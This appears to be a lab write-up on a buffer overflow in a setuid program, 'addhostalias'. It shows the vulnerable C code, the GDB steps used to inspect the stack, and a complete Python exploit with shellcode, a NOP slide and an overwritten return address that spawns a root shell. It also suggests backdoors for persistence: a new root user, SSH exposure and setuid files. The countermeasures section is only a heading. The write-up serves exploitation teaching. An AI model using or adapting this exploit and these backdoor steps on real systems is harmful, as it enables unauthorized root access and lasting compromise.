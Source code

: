 # 1 - Gaining root access

For this first part, we will gain root access through a buffer overflow
vulnerability and a malicious shellcode. With a buffer overflow, a
string can overwrite some memory and become executable. While there
exists countermeasures, they aren't implemented here, hence our attack.

## 1.1 - Memory layout and vulnerability

When we look at the source code of `addhostalias.c`, the vulnerability
opportunity is very clear:

```c
void add_alias(char *ip, char *hostname, char *alias) {
    char formatbuffer[256];
    // ...
    sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
    // fopen
    // ...
}

int main(int argc, char *argv[]) {
    // ...
    add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
    // ...
}
```

We're trying to insert in `formatbuffer` strings without checking their
length. The main function simply reads its arguments and forwards it to
`add_alias`, which will insert it in its buffer. The thing is, what if
our string become too long? If it hits 256 characters or more, we will
exit our buffer and write our string on top of our memory.

![Memory layout](./assets/memory_layout.png)

## 1.2 - Create the exploit

What we want to do is override the return address to jump back in the
buffer and execute the string as if it was some code.

Using GDB, we can verify that the stack is override. First, we run
`gdb /usr/bin/addhostalias`, then `break fopen` since it is the next
function call after our buffer overflow. Next,
```run `python -c "print '3'*50"` x y```. Finally, we can check the
stack content with `x/50x $sp`.

![Stack content](./assets/stack_content.png)

`3` encoded in ASCII is 0x33 in hexadecimal, hence all these 33.
However, using the memory layout above, we can see that the saved frame
pointer is 0x08048241 and the the return address 0x40007099.

![Stack content with highlights](./assets/stack_content_highlighted.jpg)

Now, if we input 256 characters, plus 4 characters for the frame
pointer, we should be able to overwrite the return address to return in
the stack and execute our shellcode as if it was "real" code.

We will use a NOP slide to aim wide and then a payload, the shellcode.
This shellcode will set the RID from the EID, effectively putting
ourselves as root. This works only because the sticky bit is enabled
for this file; any program without the sticky bit will (obviously)
not be able to switch to root.

The following script will send the right shellcode for us, used like
this: `addhostalias $(python exploit.py)`

```python
shellcode = ("\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80"
            +"\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0"
            +"\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80"
            +"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68"
            +"\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
            +"\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90"
            +"\x90\x90\x90\x90\x90\x90\x90\x90\x90")

nopSlide = "\x90" * (256 - len(shellcode))
newAddr = "\xe0\xfa\xff\xbf"

print "x", "y", nopSlide + shellcode + newAddr
```

And, with it, we can finally get root access.

![Root access](./assets/root_access.png)

## 1.3 - Permanent root access

Althouh this root access is limited in time, we can easily make it
permanent with a backdoor. With root access, you can create a new user
with root access and a known password, expose a SSH access, create a
file with sticky flag, etc.

# 2 - Discussion and countermeasures
